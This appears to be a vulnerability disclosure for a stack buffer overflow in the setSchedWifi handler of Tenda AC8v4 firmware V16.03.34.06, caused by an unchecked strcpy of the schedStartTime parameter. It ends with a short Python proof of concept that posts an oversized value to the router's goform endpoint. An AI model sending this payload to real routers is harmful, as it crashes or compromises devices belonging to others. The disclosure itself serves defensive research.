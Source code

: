 # Tenda AC8v4 V16.03.34.06(1)

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103518

## Affected version

V16.03.34.06

## Vulnerability details

The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `src` variable receives the `schedStartTime` parameter from a POST request and is later assigned to the `ptr+2` variable, which is fixed at 25 bytes. However, since the user can control the input of  `schedStartTime`, the statement `strcpy((char *)ptr + 2, src);` can cause a buffer overflow. The user-provided  `schedStartTime` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![1735650491449](/img/1735650491449.png)

![1735650523496](/img/1735650523496.png)

![1735650546634](/img/1735650546634.png)

## POC

```python
import requests

url = "http://192.168.1.100/goform/openSchedWifi"
data = {
        "schedStartTime":b'A'*1000
}
requests.post(url=url,data=data)
```

![1735650674572](/img/1735650674572.png)

